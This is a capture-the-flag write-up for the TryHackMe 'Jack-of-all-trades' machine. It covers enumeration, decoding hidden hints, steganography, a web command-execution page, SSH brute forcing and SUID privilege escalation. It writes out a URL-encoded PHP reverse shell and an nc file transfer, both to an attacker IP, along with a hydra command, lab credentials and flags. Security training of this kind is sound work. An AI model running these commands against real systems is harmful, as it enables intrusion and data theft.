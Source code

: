 # [Challenge](https://tryhackme.com/room/jackofalltrades)
# ENUM
## nmap (`nmap -A -p- -T4 --min-rate 5000 jack`)
```nmap
PORT   STATE SERVICE VERSION
22/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-title: Jack-of-all-trades!
|_http-server-header: Apache/2.4.10 (Debian)
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
80/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 13:b7:f0:a1:14:e2:d3:25:40:ff:4b:94:60:c5:00:3d (DSA)
|   2048 91:0c:d6:43:d9:40:c3:88:b1:be:35:0b:bc:b9:90:88 (RSA)
|   256 a3:fb:09:fb:50:80:71:8f:93:1f:8d:43:97:1e:dc:ab (ECDSA)
|_  256 65:21:e7:4e:7c:5a:e7:bc:c6:ff:68:ca:f1:cb:75:e3 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
# EXPLOITATION
`/index.html`:
```html
<html> <head> <title>Jack-of-all-trades!</title> <link href="[assets/style.css](view-source:http://jack:22/assets/style.css)" rel=stylesheet type=text/css> </head> <body> <img id="header" src="[assets/header.jpg](view-source:http://jack:22/assets/header.jpg)" width=100%> <h1>Welcome to Jack-of-all-trades!</h1> <main> <p>My name is Jack. I'm a toymaker by trade but I can do a little of anything -- hence the name!<br>I specialise in making children's toys (no relation to the big man in the red suit - promise!) but anything you want, feel free to get in contact and I'll see if I can help you out.</p> <p>My employment history includes 20 years as a penguin hunter, 5 years as a police officer and 8 months as a chef, but that's all behind me. I'm invested in other pursuits now!</p> <p>Please bear with me; I'm old, and at times I can be very forgetful. If you employ me you might find random notes lying around as reminders, but don't worry, I <em>always</em> clear up after myself.</p> <p>I love dinosaurs. I have a <em>huge</em> collection of models. Like this one:</p> <img src="[assets/stego.jpg](view-source:http://jack:22/assets/stego.jpg)"> <p>I make a lot of models myself, but I also do toys, like this one:</p> <img src="[assets/jackinthebox.jpg](view-source:http://jack:22/assets/jackinthebox.jpg)"> <!--Note to self - If I ever get locked out I can get back in at /recovery.php! --> <!-- UmVtZW1iZXIgdG8gd2lzaCBKb2hueSBHcmF2ZXMgd2VsbCB3aXRoIGhpcyBjcnlwdG8gam9iaHVudGluZyEgSGlzIGVuY29kaW5nIHN5c3RlbXMgYXJlIGFtYXppbmchIEFsc28gZ290dGEgcmVtZW1iZXIgeW91ciBwYXNzd29yZDogdT9XdEtTcmFxCg== --> <p>I hope you choose to employ me. I love making new friends!</p> <p>Hope to see you soon!</p> <p id="signature">Jack</p> </main> </body> </html>
```
`UmVtZW1iZXIgdG8gd2lzaCBKb2hueSBHcmF2ZXMgd2VsbCB3aXRoIGhpcyBjcnlwdG8gam9iaHVudGluZyEgSGlzIGVuY29kaW5nIHN5c3RlbXMgYXJlIGFtYXppbmchIEFsc28gZ290dGEgcmVtZW1iZXIgeW91ciBwYXNzd29yZDogdT9XdEtTcmFxCg==` -> `Remember to wish Johny Graves well with his crypto jobhunting! His encoding systems are amazing! Also gotta remember your password: u?WtKSraq`

`/recovery.php`:
```html
<!DOCTYPE html> <html> <head> <title>Recovery Page</title> <style> body{ text-align: center; } </style> </head> <body> <h1>Hello Jack! Did you forget your machine password again?..</h1> <form action="[/recovery.php](view-source:http://jack:22/recovery.php)" method="POST"> <label>Username:</label><br> <input name="user" type="text"><br> <label>Password:</label><br> <input name="pass" type="password"><br> <input type="submit" value="Submit"> </form> <!-- GQ2TOMRXME3TEN3BGZTDOMRWGUZDANRXG42TMZJWG4ZDANRXG42TOMRSGA3TANRVG4ZDOMJXGI3DCNRXG43DMZJXHE3DMMRQGY3TMMRSGA3DONZVG4ZDEMBWGU3TENZQGYZDMOJXGI3DKNTDGIYDOOJWGI3TINZWGYYTEMBWMU3DKNZSGIYDONJXGY3TCNZRG4ZDMMJSGA3DENRRGIYDMNZXGU3TEMRQG42TMMRXME3TENRTGZSTONBXGIZDCMRQGU3DEMBXHA3DCNRSGZQTEMBXGU3DENTBGIYDOMZWGI3DKNZUG4ZDMNZXGM3DQNZZGIYDMYZWGI3DQMRQGZSTMNJXGIZGGMRQGY3DMMRSGA3TKNZSGY2TOMRSG43DMMRQGZSTEMBXGU3TMNRRGY3TGYJSGA3GMNZWGY3TEZJXHE3GGMTGGMZDINZWHE2GGNBUGMZDINQ= --> </body> </html>
```
`GQ2TOMRXME3TEN3BGZTDOMRWGUZDANRXG42TMZJWG4ZDANRXG42TOMRSGA3TANRVG4ZDOMJXGI3DCNRXG43DMZJXHE3DMMRQGY3TMMRSGA3DONZVG4ZDEMBWGU3TENZQGYZDMOJXGI3DKNTDGIYDOOJWGI3TINZWGYYTEMBWMU3DKNZSGIYDONJXGY3TCNZRG4ZDMMJSGA3DENRRGIYDMNZXGU3TEMRQG42TMMRXME3TENRTGZSTONBXGIZDCMRQGU3DEMBXHA3DCNRSGZQTEMBXGU3DENTBGIYDOMZWGI3DKNZUG4ZDMNZXGM3DQNZZGIYDMYZWGI3DQMRQGZSTMNJXGIZGGMRQGY3DMMRSGA3TKNZSGY2TOMRSG43DMMRQGZSTEMBXGU3TMNRRGY3TGYJSGA3GMNZWGY3TEZJXHE3GGMTGGMZDINZWHE2GGNBUGMZDINQ=` -> `Erzrzore gung gur perqragvnyf gb gur erpbirel ybtva ner uvqqra ba gur ubzrcntr! V xabj ubj sbetrgshy lbh ner, fb urer'f n uvag: ovg.yl/2GiLD2F` -> `Remember that the credentials to the recovery login are hidden on the homepage! I know how forgetful you are, so here's a hint: bit.ly/2TvYQ2S` that's [the wikipedia page for the "stegosauria"](http://en.wikipedia.org/wiki/Stegosauria) so... steganography!
`steghide --extract -sf header.jpg` -> `cmd.creds`:
```Text
Here you go Jack. Good thing you thought ahead!

Username: jackinthebox
Password: TplFxiSHjY
```
Let's try these credentials in `/recovery.php`
`/recovery.php`: `GET me a 'cmd' and I'll run it for you Future-Jack.`
Mmmhhhh, let's try `cmd` as parameter: `http://jack:22/nnxhweOV/index.php?cmd=whoami` -> `GET me a 'cmd' and I'll run it for you Future-Jack. www-data www-data`
Bingo! Let's open a revshell: `http://jack:22/nnxhweOV/index.php?cmd=php%20-r%20%27%24sock%3Dfsockopen%28%2210.8.13.111%22%2C4444%29%3Bexec%28%22bash%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27` and let's generate an interactive shell: `python -c "import pty; pty.spawn('/bin/bash')"`
# PRIVILEGE ESCALATION
We can't go into `/home/jack`: we need his credentials first; there's a file called `jacks_password_list`: let's bruteforce it!
`hydra -l jack -P creds.txt ssh://jack:80 -t 60 -V`
`jack:ITMJpGGIqg1jn?>@`
Let's grab the user flag but... it's in jpg! Let's download the image: `nc 10.8.13.111 4444 < user.jpg` -> `nc -lvnp 4444 > user.jpg`
`securi-tay2020_{p3ngu1n-hunt3r-3xtr40rd1n41r3}`
I ran `linpeas.sh` and... `/usr/bin/strings` has SUID bit check! Let's run it to read `/root/root.txt`: `strings /root/root.txt`
```Text
ToDo:
1.Get new penguin skin rug -- surely they won't miss one or two of those blasted creatures?
2.Make T-Rex model!
3.Meet up with Johny for a pint or two
4.Move the body from the garage, maybe my old buddy Bill from the force can help me hide her?
5.Remember to finish that contract for Lisa.
6.Delete this: securi-tay2020_{6f125d32f38fb8ff9e720d2dbce2210a}
```
